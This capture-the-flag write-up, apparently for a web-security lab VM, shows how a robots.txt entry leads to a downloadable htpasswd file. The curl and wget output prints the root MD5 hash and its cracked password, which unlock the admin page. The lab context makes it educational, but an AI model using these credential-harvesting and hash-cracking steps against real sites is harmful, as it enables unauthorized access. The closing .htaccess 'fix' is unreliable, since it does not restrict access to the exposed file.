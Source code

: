 # Admin(htpasswd)

If we go to <http://[VM_IP]/robots.txt> we will find 2 folders disallowed - `/whatever` and `/.hidden`.  
Let's check <http://[VM_IP]/whatever/>

```
daniseed@DESKTOP:~/darkly$  curl -v 192.168.31.135/whatever/
*   Trying 192.168.31.135:80...
* TCP_NODELAY set
* Connected to 192.168.31.135 (192.168.31.135) port 80 (#0)
> GET /whatever/ HTTP/1.1
> Host: 192.168.31.135
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:25:44 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
<
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>
* Connection #0 to host 192.168.31.135 left intact


*   Trying 192.168.31.135:80...
* TCP_NODELAY set
* Connected to 192.168.31.135 (192.168.31.135) port 80 (#0)
> GET /whatever/htpasswd HTTP/1.1
> Host: 192.168.31.135
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:26:29 GMT
< Content-Type: application/octet-stream
< Content-Length: 38
< Last-Modified: Tue, 29 Jun 2021 18:09:05 GMT
< Connection: keep-alive
< ETag: "60db61c1-26"
< Accept-Ranges: bytes
<
root:437394baff5aa33daa618be47b75cb49
* Connection #0 to host 192.168.31.135 left intact
```

OR

```
daniseed@DESKTOP:~/darkly$ wget http://192.168.31.135/whatever/htpasswd
--2023-05-09 18:05:11--  http://192.168.31.135/whatever/htpasswd
Connecting to 192.168.31.135:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38 [application/octet-stream]
Saving to: ‘htpasswd’

htpasswd                          100%[==========================================================>]      38  --.-KB/s    in 0s

2023-05-09 18:05:11 (2.11 MB/s) - ‘htpasswd’ saved [38/38]



daniseed@DESKTOP:~/darkly$ cat htpasswd
root:437394baff5aa33daa618be47b75cb49
```

We have login-password combination: `root:437394baff5aa33daa618be47b75cb49`

But it doesn't work on its own. So lets try and dehash it with [crackstation](https://crackstation.net/).
The password is encrypted with md5 - `qwerty123@`

Input this on <http://[VM_IP]/admin/> and we have our flag

## Explanation

Attack type: [Information exposure](https://cwe.mitre.org/data/definitions/200.html): robots.txt

> The file robots.txt is used to give instructions to web robots, such as search engine crawlers, about locations within the web site that robots are allowed, or not allowed, to crawl and index. It is often used to identify restricted or private areas of a site's contents. The information in the file may therefore help an attacker to map out the site's contents, especially if some of the locations identified are not linked from elsewhere in the site. If the application relies on robots.txt to protect access to these areas, and does not enforce proper access control over them, then this presents a serious vulnerability. [more](https://portswigger.net/kb/issues/00600600_robots-txt-file)

So the robots.txt file is often used as a primary source of information about hidden areas of the web site.

## How to fix it

>  You should not assume that all web robots will honor the file's instructions. Rather, assume that attackers will pay close attention to any locations identified in the file. Do not rely on robots.txt to provide any kind of protection over unauthorized access.

By adding this code to .htaccess file we can close robots.txt from indexing and following the hyperlink
```
<FilesMatch "robots.txt">
	Header set X-Robots-Tag "noindex, nofollow"
</FilesMatch>
```
